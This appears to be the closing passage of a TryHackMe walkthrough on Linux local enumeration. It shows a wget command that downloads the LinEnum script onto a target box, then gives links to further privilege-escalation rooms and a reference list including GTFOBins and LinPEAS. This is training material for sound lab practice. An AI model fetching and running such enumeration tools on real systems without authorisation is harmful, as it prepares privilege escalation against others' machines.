`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

Now, as you have two tools on the box, try running both of them and see if either of them shows something interesting!

Please note: It's always a good idea to run multiple scripts separately and compare their output, as far as each one of them has their own specific scope of exploration.

---------------------------------------------------------------------------

### Task 10: Resources and what's next?

Congratulations! You have successfully gone through Linux local enumeration!
Now you can understand the main concepts of manual and automatic enumeration which will lead you towards obtaining root!

We recommend you to continue your education by completing these awesome rooms, covering more in-depth privilege escalation:

1. [https://tryhackme.com/room/sudovulnsbypass](https://tryhackme.com/room/sudovulnsbypass)
2. [https://tryhackme.com/room/commonlinuxprivesc](https://tryhackme.com/room/commonlinuxprivesc)
3. [https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)

After doing so, you can practice your skills by completing these easy challenge machines:

1. [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)
2. [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)
3. [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)
4. [https://tryhackme.com/room/tartaraus](https://tryhackme.com/room/tartaraus)

---------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [CVE-2019-14287 - NIST](https://nvd.nist.gov/vuln/detail/cve-2019-14287)
- [Editing /etc/passwd File for Privilege Escalation - Hacking Articles](http://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [LinEnum - GitHub](https://github.com/rebootuser/LinEnum)
- [LinPEAS - GitHub](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [Most common linux file extensions - Laura Liparulo´s blog](https://lauraliparulo.altervista.org/most-common-linux-file-extensions/)
- [netstat - Linux manual page](https://man7.org/linux/man-pages/man8/netstat.8.html)
- [passwd(5) - Linux manual page](https://man7.org/linux/man-pages/man5/passwd.5.html)
- [passwd - Wikipedia](https://en.wikipedia.org/wiki/Passwd)
- [Perl - GTFOBins](https://gtfobins.org/gtfobins/perl/)
- [Port forwarding - Wikipedia](https://en.wikipedia.org/wiki/Port_forwarding)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [ssh-keygen - Linux manual page](https://man7.org/linux/man-pages/man1/ssh-keygen.1.html)
- [Static binaries - GitHub](https://github.com/andrew-d/static-binaries)
- [Sudo Context - GTFObins](https://gtfobins.org/#//^sudo$)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [SUID Context - GTFObins](https://gtfobins.org/#//^suid$)
- [uname - Linux manual page](https://man7.org/linux/man-pages/man1/uname.1.html)
- [Upgrading Simple Shells to Fully Interactive TTYs - ropnop blog](http://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
